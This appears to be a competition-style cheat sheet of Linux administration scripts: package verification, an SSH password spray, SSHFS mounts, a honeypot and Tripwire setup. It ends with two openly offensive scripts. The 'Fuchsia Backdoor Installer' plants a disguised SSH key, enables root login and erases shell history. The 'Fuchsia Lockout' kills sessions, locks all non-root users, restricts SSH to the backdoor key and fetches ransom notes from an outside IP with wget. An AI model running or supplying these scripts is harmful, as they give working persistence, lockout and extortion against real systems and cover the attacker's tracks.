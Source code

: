 # Scripts

### Quick Commands

* RHEL verify all packages: `rpm -Va`
  * Output only if different, checks perms and hashes
* Debian verify all packages: `debsums`
  * Need to install
* Kill all PTYs that are not yours: `` kill -9 `pgrep '^(bash|sh)' | grep -v $$` ``
* Get established connections: `netstat -tpn 2>/dev/null || netstat -an | grep ESTABLISHED`
* Get listening ports: `netstat -tln 2>/dev/null || netstat -an | grep LISTEN`
* List kernel modules: `lsmod || modinfo`

### Control
* Run command on one host: `ssh <hostname> -l <username> <username> <command>`
  * Username only needed if not `root`
* Run command on all hosts: `pssh -h <hosts_file> -l <default_username> <command>`
  * Username only needed if not `root`
  * If `pssh` command doesn't exist, try `parallel-ssh`
  * `pssh` must be installed before use
* Run command on one host (ansible): `ansible <hostname> -m raw -a "<command>"`
* Run command on all hosts (ansible): `ansible all -m raw -a "<command>"`
* Run ansible playbook: `ansible-playbook name_of_playbook.yml`

### SSH Initial Spray

```
$ sudo apt install sshpass pssh
$ OP=<old_password>
$ NP=<new_password>
$ for i in {1..255}; do sshpass -p "$OP" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=10 <user>@10.X.X.$i "echo -e '$OP\n$NP\n$NP' | passwd" && echo 10.X.X.$i >> success & done
$ sshpass -p "$NP" parallel-ssh -h success -l <user> -t 5 -A "<sudo> /sbin/iptables -I INPUT 1 -p tcp --dport 22 -j ACCEPT && <sudo> /sbin/iptables -I INPUT 2 -j DROP"
```
Notes:
* Change `<user>` to be `root` and any admin user names provided
* Change `10.X.X` to be actual subnet
* Change `1..255` to actually represent range of IP addresses in our environment
* Change `$OP\n$NP\n$NP` to `$NP\n$NP` if <user> == root
* Need manual password change on *BSD, Solaris
* Need manual firewall on OpenSUSE (firewalld), *BSD (PfCTL), and Solaris (ipfilter)
 
###### Second round
```
$ for s in $(cat success); echo "$s:"; do read pass; sshpass -p "$NP" ssh <user>@$s "echo -e '$NP\n$pass\n$pass' | passwd & done
```

### Copy Keys

Prep: `ssh-keygen`

```
#!/usr/bin/env bash

while [ true ]
do
    echo "IP address:"
    read IP
    echo "Hostname:"
    read HOSTNAME
    ssh-copy-id root@$IP
    echo "$IP $HOSTNAME" | sudo tee -a /etc/hosts
    echo $HOSTNAME | sudo tee -a /etc/servers
    mkdir -p /servers/$HOSTNAME
done
```

### Mount SSHFS

```
#!/bin/bash

sudo mkdir -p /servers
sudo chown root:toads /servers
sudo chmod 0775 /servers

for s in $(cat /etc/servers); do
  sudo umount /servers/$s #>/dev/null 2>&1 || true
  rmdir /servers/$s #>/dev/null 2>&1 || true
  mkdir /servers/$s
  sshfs -o allow_other,ServerAliveInterval=20,reconnect root@$s:/ /servers/$s
done
```

### Convert ARP entries to static

```
$ arp -an | awk -F' ' '{print $2 $4}' | cut -d'(' -f2 | while IFS=')' read ip mac
> do arp -s $ip $mac
> done
```

### Honeypot (run command on connection)

```
#!/usr/bin/env python
import os, socket, select

ports = [12345, 12346]
socks = []

for p in ports:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("0.0.0.0", p))
    s.listen(5)
    socks.append(s)
    
while True:
    r, w, err = select.select(socks, [], [])
    for s in r:
        c, addr = s.accept()
        c.shutdown(socket.SHUT_RDWR)
        c.close()
        os.system('wall "suspicious connection from IP: " ' + addr[0])
```

### Procedurally Generate Tripwire Configuration

```
for S in `ls /servers`; do
  echo "( rulename = "$S", severity = 100)">>~/twpol.txt
  echo "{">>~/twpol.txt
  for D in `ls /servers/$S | grep -v dev | grep -v srv | grep -v proc`; do
    echo "/servers/$S/$D -> \$(ReadOnly) (recurse = true);">>~/twpol.txt
  done
  echo "}">>~/twpol.txt
done
```

### Fuchsia Backdoor Installer

```
echo "PUBKEY HERE" >> /etc/ssh/ssh_host_rsa2048_key.pub
touch -r /etc/ssh/ssh_host_rsa_key.pub /etc/ssh/ssh_host_rsa2048_key.pub
sed -i 's/\#AuthorizedKeysFile.*/AuthorizedKeysFile .ssh\/authorized_keys \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config
kill -HUP $(pgrep -f `which sshd`)
history -c
echo "" > ~/.bash_history
```


### Fuchsia Lockout

```
who | awk '!/root/{ cmd="/sbin/pkill -KILL -u " $1; system(cmd)}'

echo "Kicked em out!"

cp /etc/passwd /etc/passwd.backup.shad0wfuchsia
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.backup.shad0wfuchsia

echo "User table backed up"

echo "Locking users..."

for USERNAME in `cut -d: -f1 /etc/passwd | grep -v root`
do
  sudo passwd -l $USERNAME
done

echo "All users locked"

# Set authorized keyfile to ONLY backdoor key
sed -i 's/\AuthorizedKeysFile.*/AuthorizedKeysFile \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config

# Disable password authentication
sed -i 's/#PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config

# Remove any existing allowusers directive, replace with root only
sed -i 's/AllowUsers.*/\#/' /etc/ssh/sshd_config
echo -e ' \n' >>/etc/ssh/sshd_config
echo 'AllowUsers root' >> /etc/ssh/sshd_config

sed -i 's/Banner.*/\#/' /etc/ssh/sshd_config
sed -i 's/#Banner.*/\#/' /etc/ssh/sshd_config
echo 'Banner /etc/fuchsia_banner' >> /etc/ssh/sshd_config

echo "SSH Configuration finished"

rm /etc/motd
wget -O /etc/fuchsia_banner http://67.205.157.179/fus-nocolor.txt
wget -O /etc/nologin http://67.205.157.179/fus.txt

echo "Ransom notes installed"

cat >~/unfuck.sh <<EOL
#!/bin/bash

wget -qO - http://67.205.157.179/paid.txt

echo "Reverting changes..."
mv /etc/passwd.backup.shad0wfuchsia /etc/passwd
mv /etc/ssh/sshd_config.backup.shad0wfuchsia /etc/ssh/sshd_config
rm /etc/nologin
echo "" >/etc/fuchsia_banner

for USERNAME in \`cut -d: -f1 /etc/passwd | grep -v root\`
do
  sudo passwd -u $USERNAME
done

echo -e "System configuration restored.\nBye!"
rm -- "\$0"
EOL

kill -HUP $(pgrep -f `which sshd`)

echo "!!!CHANGE THE ROOT PASSWORD"

history -c
echo "" > ~/.bash_history
```
